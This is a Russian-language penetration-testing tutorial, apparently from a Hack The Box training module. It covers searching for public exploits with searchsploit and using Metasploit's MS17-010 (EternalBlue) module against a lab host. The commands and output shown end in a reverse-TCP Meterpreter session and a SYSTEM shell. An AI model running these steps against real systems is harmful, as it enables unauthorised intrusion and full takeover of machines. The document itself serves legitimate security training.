 # Public Exploits

Как только мы идентифицируем службы, работающие на портах, определенных в результате сканирования Nmap, первым делом нужно проверить, есть ли в каком-либо из приложений / служб какие-либо открытые эксплойты. Общедоступные эксплойты можно найти для веб-приложений и других приложений, работающих на открытых портах, таких как SSH или ftp.

## Finding Public Exploits

Многие инструменты могут помочь нам в поиске общедоступных эксплойтов для различных приложений и служб, с которыми мы можем столкнуться на этапе перечисления. Один из способов - это запросить в Google имя приложения с эксплойтом, чтобы узнать, получим ли мы какие-либо результаты:

![](../../.gitbook/assets/image%20%285%29.png)

Хорошо известным инструментом для этой цели является searchsploit, который мы можем использовать для поиска общедоступных уязвимостей / эксплойтов для любого приложения. Мы можем установить его с помощью следующей команды:

```bash
spike@htb[/htb]$ sudo apt install exploitdb -y
```

Затем мы можем использовать searchsploit для поиска конкретного приложения по его имени, как показано ниже:

```bash
spike@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Мы также можем использовать онлайн-базы данных эксплойтов для поиска уязвимостей, таких как [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/) или [Vulnerability Lab](https://www.vulnerability-lab.com/). В модуле «Введение в веб-приложения» обсуждаются общедоступные уязвимости веб-приложений.

## Metasploit Primer

Metasploit Framework \(MSF\) - отличный инструмент для пентестеров. Он содержит множество встроенных эксплойтов для многих общедоступных уязвимостей и предоставляет простой способ использовать эти эксплойты против уязвимых целей. MSF имеет много других функций, например:

* Запуск сценариев разведки для перечисления удаленных хостов и скомпрометированных целей
* Проверочные скрипты для проверки наличия уязвимости фактически не ставя под угрозу цели.
* Meterpreter - отличный инструмент для подключения к оболочкам и выполнения команд на скомпрометированных целях.
* Множество инструментов для постэксплуатации и разворота

Давайте рассмотрим базовый пример поиска эксплойта для приложения, которое мы атакуем, и того, как его использовать. Чтобы запустить Metasploit, мы можем использовать команду msfconsole:

```bash
spike@htb[/htb]$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```

После запуска Metasploit мы можем искать наше целевое приложение с помощью команды search exploit. Например, мы можем найти уязвимость SMB, которую мы идентифицировали ранее:

```bash
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

{% hint style="info" %}
Поиск может применять сложные фильтры, такие как search cve: 2009 type: exploit. Просмотреть все фильтры с помощью поиска.
{% endhint %}

Мы нашли один эксплойт для этого сервиса. Мы можем использовать его, скопировав полное имя и используя USE:

```bash
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Прежде чем мы сможем запустить эксплойт, нам нужно настроить его параметры. Чтобы просмотреть параметры, доступные для настройки, мы можем использовать команду show options:

```bash
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Для работы эксплойта необходимо установить любой параметр с параметром Required, установленным на yes. В этом случае нам нужно установить только параметры: RHOSTS, что означает IP-адрес нашей цели \(это может быть один IP-адрес, несколько IP-адресов или файл, содержащий список IP-адресов\). Мы можем установить их с помощью команды set:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Как только у нас будут установлены обе опции, мы можем начать эксплуатацию. Однако перед запуском скрипта мы можем запустить проверку, чтобы убедиться, что сервер уязвим:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Как видим, сервер действительно уязвим. Обратите внимание, что не каждый эксплойт в Metasploit Framework поддерживает функцию проверки. Наконец, мы можем использовать команду run или exploit для запуска эксплойта:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

Как мы видим, мы смогли получить доступ администратора к ящику и использовали команду оболочки, чтобы перетащить нас в интерактивную оболочку. Это основные примеры использования Metasploit для эксплуатации уязвимости на удаленном сервере. На платформе Hack The Box есть много устаревших боксов, которые отлично подходят для практики Metasploit. Некоторые из них включают, но не ограничиваются:

* Granny/Grandpa
* Jerry
* Blue
* Lame
* Optimum
* Legacy
* Devel

Позже, в этом модуле, мы шаг за шагом рассмотрим окно Nibbles, а затем покажем использование Metasploit. Metasploit - еще один важный инструмент, который нужно добавить в наш инструментарий, но важно не только полагаться на него. Чтобы быть всесторонними тестировщиками, мы должны знать, как наилучшим образом использовать все доступные нам инструменты, понимать, почему они иногда терпят неудачу, и знать, когда перейти к ручным методам или другим инструментам.

